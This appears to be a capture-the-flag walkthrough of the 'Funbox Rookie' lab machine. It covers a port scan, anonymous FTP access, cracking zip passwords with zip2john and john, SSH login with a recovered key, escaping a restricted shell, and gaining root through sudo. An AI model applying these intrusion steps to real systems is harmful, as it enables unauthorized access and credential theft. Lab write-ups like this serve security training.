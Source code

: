 # Funbox Rookie

![[Pasted image 20220520195440.png]]

```
192.168.1.149
```

## Port scan

```
21/tcp open  ftp     syn-ack ttl 64 ProFTPD 1.3.5e
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
```

ftp allows anonymous login, there are some interesting .zip flies and a .msg file which contains the message that is displayed upon login.

I copied them all down to take a closer look.

![[Pasted image 20220526082626.png]]

using `unzip` we discover these archives are password protected.

![[Pasted image 20220526082655.png]]

Extract the hashes from each file:

```bash
for file in $(ls *.zip); do zip2john $file > hashes; done
```

Then crack them:

```bash
john hashes
```

![[Pasted image 20220526082908.png]]

only 2 were cracked right away. The discovered passwords can be used to unzip the archives.

Each archive contains a private key. Tom's private key can be used for ssh authentication.

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa tom@192.168.1.149
```

![[Pasted image 20220526083105.png]]

it looks like we are in rbash

![[Pasted image 20220526083329.png]]

I was able to break out by calling bash in interactive mode:

```bash
bash -i
```

found a potential password for Tom in the .mysql_history file

![[Pasted image 20220526090923.png]]

using the newly found password, we see that Tom is allowed to sudo everything.

![[Pasted image 20220526091013.png]]

```bash
sudo su
```

![[Pasted image 20220526091118.png]]